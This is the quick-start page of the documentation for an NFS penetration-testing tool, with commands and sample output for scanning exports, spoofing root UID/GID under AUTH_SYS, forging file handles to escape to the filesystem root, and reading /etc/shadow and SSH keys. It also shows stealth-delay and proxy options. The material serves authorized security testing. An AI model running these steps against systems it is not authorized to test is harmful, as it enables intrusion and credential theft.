

# Quick Start

This walkthrough takes you from zero to a complete NFS security assessment in five steps. It assumes you have NFSWolf [installed](installation.md) and a target NFS server to test.

!!! danger "Authorized targets only"
    NFSWolf performs active reconnaissance and exploitation against NFS services. Only run it against systems you own or have explicit written authorization to test. Unauthorized access to computer systems is a criminal offense in most jurisdictions.

## The attack path

NFSWolf follows a structured attack path from discovery through exploitation:



An NFS export is a directory the server shares over the network. Each step builds on the previous one. Scanning discovers what is exposed, analysis identifies weaknesses, escape breaks out of export boundaries, and the shell lets you interact with the filesystem directly.

## Step 1: Scan the target

Discover NFS services, exports, and server metadata:

```bash
nfswolf scan 10.0.0.1
```

??? example "Example output"

    ```
    NFSWolf v1.2.0 — NFS Security Scanner

    Target: 10.0.0.1

    ── Services ──────────────────────────────────────────────────────────
    portmapper    111/tcp    rpcbind v2/v3/v4
    nfs           2049/tcp   NFSv3, NFSv4
    mountd        20048/tcp  MOUNT v1/v3

    ── Exports ───────────────────────────────────────────────────────────
    /srv/nfs         *                  rw,no_root_squash,no_subtree_check
    /home            10.0.0.0/24        rw,root_squash,subtree_check
    /var/backups     *(ro)              ro,root_squash,no_subtree_check

    ── Server Info ───────────────────────────────────────────────────────
    OS fingerprint:    Linux (knfsd)
    NFS versions:      v3, v4.0
    Auth flavors:      AUTH_SYS (1), AUTH_UNIX (1)   # trust-based: client states its own identity
    Portmapper:        46 registered programs
    MOUNT clients:     2 active mounts

    ── File Handles ──────────────────────────────────────────────────────
    /srv/nfs       0100 0007 0200 0002 0000 0000 6ea7 1866 ...
    /home          0100 0007 0200 0002 0000 0000 3f2c 9a01 ...
    /var/backups   0100 0007 0200 0002 0000 0000 8b14 dd42 ...

    3 exports discovered on 10.0.0.1
    # rerun: nfswolf scan 10.0.0.1
    ```

The scanner probes portmapper (port 111), MOUNT daemon, and NFS (port 2049) in parallel. It reports every export with its access control list, the server's NFS version support, and the raw file handles (chunks of server-internal data that identify files) needed for later steps.

You can also scan entire subnets:

```bash
nfswolf scan 10.0.0.0/24
```

!!! tip "Firewalled portmapper"
    If portmapper (port 111) is firewalled but you know the NFS port, skip it:

    ```bash
    nfswolf scan 10.0.0.1 --skip-rpc --nfs-port 2049
    ```

## Step 2: Analyze security posture

Run the full security audit against the server:

```bash
nfswolf analyze 10.0.0.1
```

??? example "Example output"

    ```
    NFSWolf v1.2.0 — NFS Security Analyzer

    Target: 10.0.0.1
    Exports analyzed: 3
    Findings: 12

    ── Critical ──────────────────────────────────────────────────────────

    F-1.1  AUTH_SYS UID Spoofing                                CRITICAL
           Export /srv/nfs accepts AUTH_SYS (trust-based auth where
           the client states its own user ID without proof).
           Any client can present arbitrary UID/GID (user/group ID)
           credentials.
           Ref: RFC 5531 §14, RFC 2623 §2.1

    F-2.1  no_root_squash Enabled                               CRITICAL
           Export /srv/nfs has no_root_squash — UID 0 (root) is not
           mapped to nobody. Remote root has full filesystem access.
           Ref: exports(5), RFC 1094 §2.3

    F-2.3  Subtree Check Disabled                               HIGH
           Export /srv/nfs has no_subtree_check — file handles from
           other directories on the same filesystem are valid.
           Ref: exports(5)

    ── High ──────────────────────────────────────────────────────────────

    F-5.1  Export List World-Readable                            HIGH
           All 3 exports are accessible from any host (*).
           No IP-based access restrictions configured.
           Ref: exports(5)

    F-5.6  File Metadata Leaked on Access Denial                MEDIUM
           Server returns uid, gid, mode, and size in denied responses.
           Ref: RFC 1813 §3.3

    ... 7 more findings ...

    ── Summary ───────────────────────────────────────────────────────────
    Critical: 2  |  High: 4  |  Medium: 3  |  Low: 2  |  Info: 1
    Risk score: 87/100

    # rerun: nfswolf analyze 10.0.0.1
    ```

The analyzer checks for 62 documented security findings across identity attacks, access control bypasses, network exposures, privilege escalation vectors, information disclosures, and configuration weaknesses. Each finding references the specific RFC section or kernel behavior that makes it exploitable.

## Step 3: Drop into the shell

Connect to an export and explore it interactively:

```bash
nfswolf shell 10.0.0.1:/srv/nfs
```

??? example "Example session"

    ```
    NFSWolf v1.2.0 — NFS Shell
    Connected to 10.0.0.1:/srv/nfs (NFSv3, AUTH_SYS uid=1000 gid=1000)

    nfs:/srv/nfs> ls
    drwxr-xr-x  root     root       4096  2025-03-15 09:22  .
    drwxr-xr-x  root     root       4096  2025-03-15 09:22  ..
    drwxr-xr-x  www-data www-data   4096  2025-06-01 14:30  webapp
    -rw-r--r--  root     root       1847  2025-05-20 11:00  config.yml
    -rw-------  dbadmin  dbadmin   49152  2025-06-10 08:45  database.sqlite

    nfs:/srv/nfs> cat config.yml
    # Application configuration
    database:
      host: localhost
      port: 5432
      password: s3cret_db_pass
    ...

    nfs:/srv/nfs> cd webapp
    nfs:/srv/nfs/webapp> get index.html
    Downloaded index.html (24576 bytes, sha256:a1b2c3d4...)

    nfs:/srv/nfs/webapp> whoami
    uid=1000 gid=1000 groups=1000

    nfs:/srv/nfs/webapp> suid-scan
    Scanning for SUID/SGID binaries...
    -rwsr-xr-x  root  root  16712  /usr/bin/passwd
    -rwsr-xr-x  root  root  63568  /usr/bin/sudo
    -rwsr-xr-x  root  root  44528  /usr/bin/chown
    3 SUID/SGID binaries found

    nfs:/srv/nfs/webapp> secrets-scan
    Scanning for sensitive files...
    -rw-------  root   shadow    1204  /etc/shadow          READABLE (via uid=0)
    -rw-r-----  root   ssl-cert  3247  /etc/ssl/private/server.key
    -rw-------  root   root       684  /root/.ssh/id_rsa    READABLE (via uid=0)
    3 sensitive files found

    nfs:/srv/nfs/webapp> exit
    ```

The shell supports 52 commands. Some highlights:

| Command | Description |
|---------|-------------|
| `ls`, `cd`, `pwd` | Navigate the remote filesystem |
| `cat`, `get`, `put` | Read, download, and upload files |
| `get -r`, `put -r` | Recursive download/upload with progress bars |
| `whoami`, `id` | Show current credentials (the UID/GID the server sees) |
| `suid-scan` | Find SUID/SGID binaries accessible from this export |
| `secrets-scan` | Scan for sensitive files (shadow, SSH keys, certificates) |
| `world-writable` | Find world-writable files and directories |
| `escape-root` | Attempt export escape from within the shell |
| `exports` | Discover sibling exports via LOOKUPP traversal |

!!! tip "Auto-credential escalation"
    The shell automatically tries different user IDs when you access a file your current UID cannot read. It builds a list from the file's owner, identities visible in directory listings, and common service accounts, then tries each in sequence. No manual UID switching needed for most files.

## Step 4: Escape the export

Attempt to break out of the export directory and reach the full filesystem:

```bash
nfswolf escape 10.0.0.1:/srv/nfs
```

??? example "Example output"

    ```
    NFSWolf v1.2.0 — Export Escape

    Target: 10.0.0.1:/srv/nfs

    ── Phase 1: Gathering seed handles ───────────────────────────────────
    MOUNT v3 /srv/nfs             handle acquired
    MOUNT v1 /srv/nfs             handle acquired
    NFSv4 LOOKUP /srv/nfs         handle acquired

    ── Phase 2: Constructing candidates ──────────────────────────────────
    Filesystem: ext4 (fsid 0x0007, fileid_type 0x02)
    Generated 24 candidate root handles

    ── Phase 3: Probing ──────────────────────────────────────────────────
    Probing 24 candidates across NFSv3...
      [################] 24/24 — 3 valid handles found

    ── Phase 4: Deduplication ────────────────────────────────────────────
    3 handles -> 1 unique filesystem root

    ── Phase 5: Root filesystem detection ────────────────────────────────
    Handle 0100070200020000000001000000... resolves to /
    Confirmed: this is the root filesystem (inode 2, ext4)

    ── Phase 6: Results ──────────────────────────────────────────────────

    ESCAPE SUCCESSFUL — reached filesystem root

    Root handle: 01000007020000020000000001000000000000006ea718660ea71866
    Filesystem:  ext4, inode 2
    Access:      full read (uid=0 via no_root_squash)

    Next steps:
      # Drop into a shell at the filesystem root
      nfswolf shell 10.0.0.1 --handle 01000007020000020000000001000000000000006ea718660ea71866

      # Read /etc/shadow directly
      nfswolf escape 10.0.0.1:/srv/nfs --read-shadow

    # rerun: nfswolf escape 10.0.0.1:/srv/nfs
    ```

The escape works by manipulating NFS file handles to reference the filesystem root (inode 2) instead of the export directory. It supports 18 of 19 Linux filesystem types. Use the root handle with `nfswolf shell --handle` to explore the entire filesystem.

For a fast single-export check (10-80 RPCs instead of a full sweep):

```bash
nfswolf escape 10.0.0.1:/srv/nfs --fast
```

## Step 5: Generate a report

Produce an HTML report for documentation or handoff:

```bash
nfswolf analyze 10.0.0.1 --json results.json
nfswolf convert -i results.json --format html -o report.html
```

The analyzer outputs ANSI-colored text to stdout by default, or machine-readable JSON via `--json`. For other formats (HTML, Markdown, CSV, TXT), capture the JSON and pass it through `convert`:

| Format | How to produce | Use case |
|--------|---------------|----------|
| Console | `nfswolf analyze target` | Terminal review |
| JSON | `nfswolf analyze target --json results.json` | Machine-readable, feeds into other tools |
| HTML | `nfswolf convert -i results.json --format html -o report.html` | Self-contained report for stakeholders |
| Markdown | `nfswolf convert -i results.json --format markdown -o findings.md` | GitHub issues, wikis, documentation |
| CSV | `nfswolf convert -i results.json --format csv -o findings.csv` | Spreadsheet import, bulk analysis |
| Text | `nfswolf convert -i results.json --format txt -o summary.txt` | Plain text summary |

Example workflow -- capture once, render many:

```bash
# Save raw analysis data
nfswolf analyze 10.0.0.1 --json results.json

# Convert to HTML any time
nfswolf convert -i results.json --format html -o report.html

# Or to Markdown
nfswolf convert -i results.json --format markdown -o findings.md
```

## Common options

These global flags apply to every subcommand:

```bash
# Spoof UID/GID — AUTH_SYS is trust-based, so the server believes whatever you send
nfswolf shell 10.0.0.1:/srv/nfs -u 0 -g 0

# Bind to a privileged port (required by servers with the `secure` export option)
nfswolf shell 10.0.0.1:/srv/nfs --privileged-port

# Add stealth delays between RPC calls
nfswolf scan 10.0.0.1 --delay 500 --jitter 200

# Increase verbosity for debugging
nfswolf scan 10.0.0.1 -vvv

# Route through a SOCKS5 proxy
nfswolf scan 10.0.0.1 --proxy 127.0.0.1:1080

# Force a specific NFS version
nfswolf shell 10.0.0.1:/srv/nfs --nfs-version 2
```

!!! note "Root not required"
    NFSWolf operates entirely in userspace via raw RPC calls. It does not use the kernel NFS client and does not require root on the attacker's machine. The only exception is `--privileged-port`, which needs root or `CAP_NET_BIND_SERVICE` to bind below port 1024.

## What to read next

- [Scan](../usage/scan.md) — Full scanner options, subnet scanning, UDP discovery
- [Analyze](../usage/analyze.md) — All 62 findings, format options, risk scoring details
- [Shell](../usage/shell.md) — Complete shell command reference, credential escalation, MOUNT bypass
- [Escape](../usage/escape.md) — Escape algorithm, filesystem support matrix, fast vs full mode
- [Global Options](../usage/global-options.md) — Every flag that applies across subcommands
- [Why NFS Is Insecure](../security/insecurity.md) — Background on the protocol-level weaknesses NFSWolf exploits
